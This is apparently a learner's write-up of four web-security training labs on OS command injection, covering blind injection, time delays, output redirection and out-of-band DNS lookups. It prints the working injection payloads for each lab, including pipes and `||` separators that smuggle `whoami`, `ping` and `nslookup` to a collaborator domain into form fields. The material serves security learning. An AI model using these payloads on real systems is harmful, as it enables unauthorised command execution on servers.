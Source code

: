 - OS command injection is also known as shell injection. It allows an attacker to execute operating system (OS) commands on the server that is running an application, and typically fully compromise the application and its data.
## Lab 1 :
instruction : This lab contains an OS command injection vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the `whoami` command to determine the name of the current user.

solved using : `productId=2|whoami&storeId=1`

| Purpose of command    | Linux         | Windows         |
| --------------------- | ------------- | --------------- |
| Name of current user  | `whoami`      | `whoami`        |
| Operating system      | `uname -a`    | `ver`           |
| Network configuration | `ifconfig`    | `ipconfig /all` |
| Network connections   | `netstat -an` | `netstat -an`   |
| Running processes     | `ps -ef`      | `tasklist`      |
## Blind OS command injection vulnerabilities

Many instances of OS command injection are blind vulnerabilities. This means that the application does not return the output from the command within its HTTP response. Blind vulnerabilities can still be exploited, but different techniques are required.
1. Detecting blind OS command injection using time delays: `& ping -c 10 127.0.0.1 &`

## Lab 2:
instruction :This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.

steps to solve this lab
1. identify the effect input. for that put "||"this in each input. The one with the error is the  one is command injection vulnerability.

Solved using : `email=x||ping+-c+10+127.0.0.1||`

## Lab 3: 
This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

`/var/www/images/`

The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the `whoami` command and retrieve the output.

solved: 
1. `email=||whoami>/var/www/images/output.txt||`
2. GET /image?filename=output.txt HTTP/2
# lab 4:
This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

Not-solved reason need for burp pro version.

to solve use : `email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`


